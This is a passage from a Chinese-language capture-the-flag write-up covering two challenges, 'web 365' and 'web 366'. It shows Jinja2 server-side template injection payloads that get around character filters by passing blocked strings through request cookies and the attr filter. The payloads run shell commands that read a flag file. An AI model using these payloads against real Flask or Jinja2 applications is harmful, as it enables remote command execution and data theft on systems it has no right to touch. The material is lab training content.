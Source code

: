 ### [web 365](#toc_web-365)

这里的话`'`,`"`,`[`被 ban，这里仍然可以用 request.cookies 来进行绕过

```bash
?name={{url_for.__globals__.os.popen(request.cookies.c).read()}}
//c= tac /flag
```

[![在这里插入图片描述](assets/1698900310-82b2d1b6d863aa1b4e86453ad5046430.png)](https://storage.tttang.com/media/attachment/2022/08/14/e6295b8b-822c-48c1-945e-dd8e60a3ff1e.png)

### [web 366](#toc_web-366)

这里的话过滤了\_，我们可以利用过滤器 attr 结合 request 来进行绕过

```bash
{{(lipsum|attr(request.cookies.a)).os.popen(request.cookies.b).read()}}
cookies:a=__globals__&b=cat /flag
```

[![在这里插入图片描述](assets/1698900310-fd3bebc8195213ec5e5291e451b2cf56.png)](https://storage.tttang.com/media/attachment/2022/08/14/b4882dfc-0d8d-4133-8728-987267c7ecc0.png)
